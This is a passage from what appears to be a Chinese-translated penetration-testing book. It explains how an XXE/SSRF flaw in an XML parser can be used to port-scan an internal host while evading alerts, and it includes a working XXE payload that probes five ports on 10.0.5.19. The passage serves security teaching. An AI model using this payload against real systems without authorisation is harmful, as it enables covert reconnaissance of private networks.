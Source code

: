 ![请求伪造](img/B09238_10_08.jpg)

图 10.8：Collaborator 客户端确认 SSRF 漏洞

### 端口扫描仪

了解到我们可以将应用程序指向任何 URL 并进行连接，我们可以利用这一点对内部网络（或其他任何主机）进行粗略的端口扫描。我们不仅可以扫描 HTTP 端口。URL 允许指定任意端口，虽然它可能尝试协商 HTTP 连接，但我们仍然可以通过检查解析器连接尝试的错误信息来推测存在 SMTP 服务。

由于我们正在伪造请求，使其看起来来自脆弱的 XML 解析器应用程序，因此所有的端口扫描尝试将表现为来自内部受信任系统。这从隐匿性角度来看是有利的，并且在某些情况下，可以避免触发警报。

我们将用于 XXE 端口扫描器的 XML 代码将针对 `10.0.5.19` 内部主机，寻找有趣的服务：`8080`、`80`、`443`、`22` 和 `21`：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE budgetnmap [
  <!ELEMENT budgetnmap ANY>
  **<!ENTITY port0 SYSTEM "http://10.0.5.19:8080/">**
  **<!ENTITY port1 SYSTEM "http://10.0.5.19:80/">**
  **<!ENTITY port2 SYSTEM "http://10.0.5.19:443/">**
  **<!ENTITY port3 SYSTEM "http://10.0.5.19:22/">**
  **<!ENTITY port4 SYSTEM "http://10.0.5.19:21/">**
]>
<budgetnmap>
&port0;
&port1;
&port2;
&port3;
&port4;
</budgetnmap>
```
